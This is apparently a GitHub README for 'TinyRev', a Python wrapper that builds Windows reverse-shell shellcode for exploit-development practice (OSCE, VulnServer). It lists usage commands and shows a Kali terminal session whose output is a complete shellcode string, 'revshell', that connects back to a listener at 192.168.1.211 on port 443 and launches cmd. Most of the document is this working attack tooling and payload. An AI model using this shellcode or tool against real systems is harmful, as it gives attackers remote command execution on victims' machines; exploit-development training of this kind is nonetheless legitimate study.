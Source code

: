 ## TinyRev

This is just a wrapper on absolomb's reverse shell they describe [on their blog](https://www.absolomb.com/2018-07-24-VulnServer-GTER/). This will literally just create the shellcode based on configurable syscall addresses, LHOST, and LPORT arguments, you still have to make sure your stack-alignment is correct. 

**Warning**, this wrapper is very hacky and probably not very useful lol. I'm pretty sure ASLR kills this approach, but I was very bored today.

## Usage

Default usage:
`python tinyrev.py`

To get the command line syntax you need for arwin.exe to find the syscall addresses:
`python tinyrev.py -a, --arwin`

## Example

```terminal_session
root@kali:~/OSCE/ # python tinyrev.py                                    
Enter WSASocketA address (example - 7718E562): 7718E562
Enter LHOST IP (example - 192.168.1.211): 192.168.1.211
Enter LPORT (example - 443): 443
Enter connect address (example - 7718E562): 771868f5
Enter CreateProcessA address (example - 7718E562): 76a42082
Enter variable name for shellcode: revshell


revshell  = "\x31\xc0\x50\x50\x50\x31\xdb\xb3\x06\x53\x40\x50\x40\x50\xbb\x62"
revshell += "\xe5\x18\x77\x31\xc0\xff\xd3\x96\x68\xc0\xa8\x01\xd3\x66\x68\x01"
revshell += "\xbb\x31\xdb\x80\xc3\x02\x66\x53\x89\xe2\x6a\x10\x52\x56\xbb\xf5"
revshell += "\x68\x18\x77\xff\xd3\xba\x63\x63\x6d\x64\xc1\xea\x08\x52\x89\xe1"
revshell += "\x31\xd2\x83\xec\x10\x89\xe3\x56\x56\x56\x52\x52\x31\xc0\x40\xc1"
revshell += "\xc0\x08\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x31\xc0\x04"
revshell += "\x2c\x50\x89\xe0\x53\x50\x52\x52\x52\x31\xc0\x40\x50\x52\x52\x51"
revshell += "\x52\xbb\x82\x20\xa4\x76\xff\xd3"


STACK ALIGNMENT NOT INCLUDED! ;)
```


## Thanks to absolomb who is a genius.


